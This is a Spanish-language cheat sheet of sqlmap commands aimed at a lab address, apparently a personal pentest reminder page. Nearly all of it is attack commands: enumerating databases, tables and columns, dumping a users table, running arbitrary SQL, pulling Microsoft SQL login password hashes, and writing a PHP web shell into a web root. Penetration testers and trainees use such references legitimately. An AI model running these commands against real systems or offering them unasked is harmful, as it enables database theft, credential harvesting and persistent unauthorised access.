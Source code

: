 
# Ejemplos básicos de SqlMap

![Ejemplos Básicos SQLMap](https://ch4m17ux.github.io/img/posts/sqlmap/sqlmap1.png)

>**Importante:** Esta información es para uso lúdico personal. En ningún caso se pretende dar conocimientos, consejos, formaciones, herramientas, ni soluciones técnicas de ámbito comercial ni profesional. Simplemente es información que se ha redactado en finalidad de recordatorio de ciertos proyectos realizados. Si usted no está seguro de la fiabilidad de la información, no cumple con sus expectativas o no es de su agrado, le ruego que abandone este sitio web. 

Descubrir qué base de datos usa  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --dbs`

Listado de las tablas de una base de datos  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --tables -D pryectox`

Listado de las columnas de una tabla  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --columns -D pryectox -T users`

Descargar el contenido de toda una tabla en csv  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --dump -D pryectox -T users`

Chequeo de URL dinámicas (amigables)  

`sqlmap -u "http://10.10.1.100/section/51*/content/" --dump -D pryectox -T users`

Chequeo de URL con paso de parámetros por post  

`sqlmap -u "http://10.10.1.100/section.php" --data "id=50&pass=1234" --dbs`

Cuando ya sabemos que se trata de una base de datos especifica  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --dbms=mysql`


## Más opciones de la herramienta  

`sqlmap -h`

Aumentar el número de threads  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --threads 10`

Ejecutar una SQL  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --sql-query="select * from users"`

Ejecutar una SQL para extracción usuarios de Microsoft SQL 2019  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --sql-query="select name,master.sys.fn_sqlvarbasetostr(password_hash) from master.sys.sql_logins"`

Subir un archivo/shell  

`sqlmap -u "http://10.10.1.100/section.php?id=51" --file-write=/root/shell.php --file-dest=/xampp/htdocs/shell.php --batch`
